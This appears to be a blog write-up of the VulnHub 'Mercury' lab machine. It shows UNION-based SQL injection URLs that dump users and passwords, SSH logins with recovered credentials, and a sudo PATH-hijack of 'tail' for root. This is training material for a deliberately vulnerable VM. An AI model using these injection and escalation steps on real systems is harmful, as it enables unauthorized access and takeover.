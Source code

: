 ```yaml
---
layout: post
title:  "Mercury"
categories: [vulnhub]
tags: [SQLi, Hijacking, SUID]
---
```


You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/the-planets-mercury,544/`

## SQL injection

## Step 1
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
{% endhighlight %}


## Step 2
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/
 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
{% endhighlight %}

## SSH webmaster, find encoded passwords
{% highlight sh %}
  cd mecury_proj/
  ls
  cat notes.txt
{% endhighlight %}

## Base64 decode the password
{% highlight sh %}
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

## SSH linuxmaster

- linuxmaster:mercurymeandiameteris4880km

```sh
(root : root) SETENV: /usr/bin/check_syslog.sh
```

```sh
cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

```sh
echo "/bin/bash" > tail
chmod 777 tail
export PATH=.:$PATH
sudo PATH=$PATH /usr/bin/check_syslog.sh
```